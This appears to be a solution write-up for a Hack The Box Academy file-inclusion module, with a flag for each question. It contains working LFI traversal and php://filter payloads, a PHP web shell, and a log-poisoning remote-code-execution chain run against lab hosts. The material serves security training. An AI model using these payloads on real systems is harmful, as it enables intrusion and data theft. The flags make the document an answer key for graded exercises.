



# [File Inclusion](https://academy.hackthebox.com/module/details/23)

## Basic Bypasses

### Questions

#### Question #01

**Question**

The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read `/flag.txt`.


**Answer**

```
HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}
```

## PHP Filters

### Questions

#### Question #02

**Question**

Fuzz the web application for other PHP scripts, and then read one of the configuration files and submit the database password as the answer.

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://94.237.63.98:45236/FUZZ.php -ic -t 10

[SNIP]

index                   [Status: 200, Size: 2652, Words: 690, Lines: 64, Duration: 17ms]
en                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 16ms]
es                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 16ms]
configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 16ms]
```

```url
php://filter/read=convert.base64-encode/resource=config
```


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ echo -n 'PD9waHAKCmlmICgkX1NFUlZFUlsnUkVRVUVTVF9NRVRIT0QnXSA9PSAnR0VUJyAmJiByZWFscGF0aChfX0ZJTEVfXykgPT0gcmVhbHBhdGgoJF9TRVJWRVJbJ1NDUklQVF9GSUxFTkFNRSddKSkgewogIGhlYWRlcignSFRUUC8xLjAgNDAzIEZvcmJpZGRlbicsIFRSVUUsIDQwMyk7CiAgZGllKGhlYWRlcignbG9jYXRpb246IC9pbmRleC5waHAnKSk7Cn0KCiRjb25maWcgPSBhcnJheSgKICAnREJfSE9TVCcgPT4gJ2RiLmlubGFuZWZyZWlnaHQubG9jYWwnLAogICdEQl9VU0VSTkFNRScgPT4gJ3Jvb3QnLAogICdEQl9QQVNTV09SRCcgPT4gJ0hUQntuM3Yzcl8kdDByM19wbDQhbnQzeHRfY3IzZCR9JywKICAnREJfREFUQUJBU0UnID0' | base64 -d
<?php

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

$config = array(
  'DB_HOST' => 'db.inlanefreight.local',
  'DB_USERNAME' => 'root',
  'DB_PASSWORD' => 'HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}',
  'DB_DATABASE' =base64: invalid input
```

**Answer**

```
HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}
```

## PHP Wrappers

### Questions

#### Question #03

**Question**

Try to gain RCE using one of the PHP wrappers and read the flag at `/`.


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```


**Answer**

```
HTB{d!$46l3_r3m0t3_url_!nclud3} 
```

## Remote File Inclusion (RFI)

### Questions

#### Question #04

**Question**

Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in `/`.



```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ ifconfig tun0

[SNIP]

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.180  netmask 255.255.254.0  destination 10.10.15.180

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ echo '<?php system($_GET["cmd"]); ?>' | tee shell.php

<?php system($_GET["cmd"]); ?>

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ sudo python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

[CONTINUE]
```


**Answer**

```
99a8fc05f033f2fc0cf9a6f9826f83f4 
```

## LFI and File Uploads

### Questions

#### Question #05

**Question**

 Use any of the techniques covered in this section to gain RCE and read the flag at `/`.


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' | tee shell.gif

GIF8<?php system($_GET["cmd"]); ?>
```


**Answer**

```
HTB{upl04d+lf!+3x3cut3=rc3}
```

## Log Poisoning

### Questions

#### Question #06

**Question**

Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: `pwd`.




**Answer**

```
/var/www/html
```

#### Question #07

**Question**

Try to use a different technique to gain RCE and read the flag at `/`.

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ whatweb http://83.136.251.52:36154

http://83.136.251.52:36154 [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[FINLAND][FI], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[83.136.251.52], Title[Inlane Freight]
```


**Answer**

```
HTB{1095_5#0u1d_n3v3r_63_3xp053d}
```

## Automated Scanning

### Questions

#### Question #08

Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read `/flag.txt`.

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.253.217:45907/index.php?FUZZ=value' -fs 2309

[SNIP]

view                    [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 17ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.253.217:45907/index.php?view=FUZZ' -fs 2309,1935

[SNIP]

../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ wget https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux

[SNIP]

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://83.136.253.217:45907/index.php?view=../../../../../../../../../../../../../../../../../../../../../../FUZZ' -fs 2309,1935

[SNIP]

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://83.136.253.217:45907/index.php?view=../../../../../../../../../../../../../../../../../../../../../../FUZZ/index.php' -fs 2309,1935

[SNIP]

var/www/html/           [Status: 200, Size: 351022763, Words: 72880354, Lines: 10210292, Duration: 76ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ curl -s http://83.136.253.217:45907/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt | grep 'HTB'

HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}
```

**Answer**

```
HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}
```

## File Inclusion Prevention

### Questions

#### Question #09

What is the full path to the `php.ini` file for Apache?

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ssh htb-student@10.129.186.252

htb-student@10.129.186.252's password: 

Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)
htb-student@lfi-harden:~$ 
```

```
htb-student@lfi-harden:/var/www/html$ php --ini

Configuration File (php.ini) Path: /etc/php/7.4/cli
Loaded Configuration File:         /etc/php/7.4/cli/php.ini

htb-student@lfi-harden:/var/www/html$ ls -l /etc/php/7.4/cli

total 76
drwxr-xr-x 2 root root  4096 Nov  6  2020 conf.d
-rw-r--r-- 1 root root 72539 Oct  6  2020 php.ini

htb-student@lfi-harden:/var/www/html$ ls -l /etc/php/7.4/apache2/

total 76
drwxr-xr-x 2 root root  4096 Nov  6  2020 conf.d
-rw-r--r-- 1 root root 72941 Oct  6  2020 php.ini
```

**Answer**

```
/etc/php/7.4/apache2/php.ini
```

#### Question #10

Edit the `php.ini` file to block `system()`, then try to execute PHP code that uses `system`. Read the `/var/log/apache2/error.log` file and fill in the blank: `system()` has been disabled for ______ reasons.

```
htb-student@lfi-harden:/var/www/html$ cat -n /etc/php/7.4/apache2/php.ini | grep 'disable_functions'

   312	disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,

htb-student@lfi-harden:/var/www/html$ sudo vim /etc/php/7.4/apache2/php.ini

disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,system
```

```
htb-student@lfi-harden:/var/www/html$ service apache2 restart

==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
Authentication is required to restart 'apache2.service'.
Authenticating as: htb-student
Password: 
==== AUTHENTICATION COMPLETE ===
```

```
htb-student@lfi-harden:/var/www/html$ sudo netstat -antp | grep LISTEN

tcp6       0      0 :::80                   :::*                    LISTEN      920/apache2         
tcp6       0      0 :::22                   :::*                    LISTEN      912/sshd: /usr/sbin 

htb-student@lfi-harden:/var/www/html$ sudo vim /var/www/html/webshell.php

<?php system($_GET['cmd']); ?>
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ curl http://10.129.186.252/webshell.php?cmd=id
```

```
htb-student@lfi-harden:/var/www/html$ cat /var/log/apache2/error.log

[Wed Jun 04 09:02:16.565539 2025] [mpm_prefork:notice] [pid 920] AH00163: Apache/2.4.41 (Ubuntu) configured -- resuming normal operations
[Wed Jun 04 09:02:16.565601 2025] [core:notice] [pid 920] AH00094: Command line: '/usr/sbin/apache2'
[Wed Jun 04 09:25:25.365494 2025] [mpm_prefork:notice] [pid 920] AH00169: caught SIGTERM, shutting down
[Wed Jun 04 09:25:25.436763 2025] [mpm_prefork:notice] [pid 2073] AH00163: Apache/2.4.41 (Ubuntu) configured -- resuming normal operations
[Wed Jun 04 09:25:25.436803 2025] [core:notice] [pid 2073] AH00094: Command line: '/usr/sbin/apache2'
[Wed Jun 04 09:25:41.890814 2025] [php7:warn] [pid 2075] [client 10.10.15.180:34192] PHP Warning:  system() has been disabled for security reasons in /var/www/html/webshell.php on line 1
```

**Answer**

```
security
```

---

## Skills Assessment

The company `INLANEFREIGHT` has contracted you to perform a web application assessment against one of their public-facing websites. They have been through many assessments in the past but have added some new functionality in a hurry and are particularly concerned about file inclusion/path traversal vulnerabilities.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application checking for file inclusion and path traversal vulnerabilities.

Find the vulnerabilities and submit a final flag using the skills we covered in the module sections to complete this module.

Don't forget to think outside the box!

### Questions

#### Question #01

**Question**

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the `/` root directory of the file system. Submit the contents of the flag as your answer.

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ whatweb http://83.136.248.180:59877

http://83.136.248.180:59877 [200 OK] Bootstrap, Country[FINLAND][FI], HTML5, HTTPServer[nginx/1.18.0], IP[83.136.248.180], JQuery[3.3.1], PHP[7.3.22], Script, Title[InlaneFreight], X-Powered-By[PHP/7.3.22], nginx[1.18.0]
```


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.248.180:59877/index.php?FUZZ=value' -fs 15829

[SNIP]

page                    [Status: 200, Size: 4322, Words: 797, Lines: 118, Duration: 16ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.248.180:59877/index.php?page=FUZZ' -fs 4322,4521

❌
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ curl 'http://83.136.248.180:59877/index.php?page=php://filter/read=convert.base64-encode/resource=index'

[SNIP]

PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KICA8aGVhZD4KICAgIDx0aXRsZT5JbmxhbmVGcmVpZ2h0PC90aXRsZT4KICAgIDxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4KICAgIDxtZXRhIG5hbWU9InZpZXdwb3J0IiBjb250ZW50PSJ3aWR0aD1kZXZpY2Utd2lkdGgsIGluaXRpYWwtc2NhbGU9MSwgc2hyaW5rLXR...

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ echo -n 'PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KICA8aGVhZD4KICAgIDx0aXRsZT5JbmxhbmVGcmVpZ2h0PC90aXRsZT4KICAgIDxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4KICAgIDxtZXRhIG5hbWU9InZpZXdwb3J0IiBjb250ZW50PSJ3aWR0aD1kZXZpY2Utd2lkdGgsIGluaXRpYWwtc2NhbGU9MSwgc2hyaW5rLXR...' | base64 -d > index.php
```





```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.248.180:59877/ilf_admin/index.php?FUZZ=value' -fs 2035

[SNIP]

log                     [Status: 200, Size: 2046, Words: 150, Lines: 102, Duration: 16ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.248.180:59877/ilf_admin/index.php?log=FUZZ' -fs 2046

[SNIP]

../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 16ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../FUZZ/index.php' -fs 2046

[SNIP]

var/www/html/           [Status: 200, Size: 17875, Words: 3584, Lines: 502, Duration: 17ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ wget https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux

[SNIP]

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../FUZZ' -fs 2046

[SNIP]

/var/log/nginx/error.log [Status: 200, Size: 5126271, Words: 502561, Lines: 8313, Duration: 34ms]
/var/log/nginx/access.log [Status: 200, Size: 6003067, Words: 636706, Lines: 42492, Duration: 52ms]
```


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ curl 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log' -H 'User-Agent: <?php system($_GET['cmd']); ?>'

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ curl 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=id'

[SNIP]

10.30.18.208 - - [04/Jun/2025:10:11:58 +0000] "GET /ilf_admin/index.php?log=../../../../../var/log/nginx/access.log HTTP/1.1" 200 6018238 "-" "uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ curl 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=ls+-l+/'

[SNIP]

drwxr-xr-x    2 root     root          4096 May 29  2020 bin
drwxr-xr-x    5 root     root           360 Jun  4 09:28 dev
drwxr-xr-x    1 root     root          4096 Jun  4 09:28 etc
-rw-r--r--    1 root     root            33 Sep  9  2020 flag_dacc60f2348d.txt
drwxr-xr-x    2 root     root          4096 May 29  2020 home
drwxr-xr-x    1 root     root          4096 Sep  9  2020 lib

[SNIP]

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ curl 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=cat+/flag_dacc60f2348d.txt'

[SNIP]

10.30.18.208 - - [04/Jun/2025:10:11:58 +0000] "GET /ilf_admin/index.php?log=../../../../../var/log/nginx/access.log HTTP/1.1" 200 6018238 "-" "a9a892dbc9faf9a014f58e007721835e"
```

**Answer**

```
a9a892dbc9faf9a014f58e007721835e
```

---
---
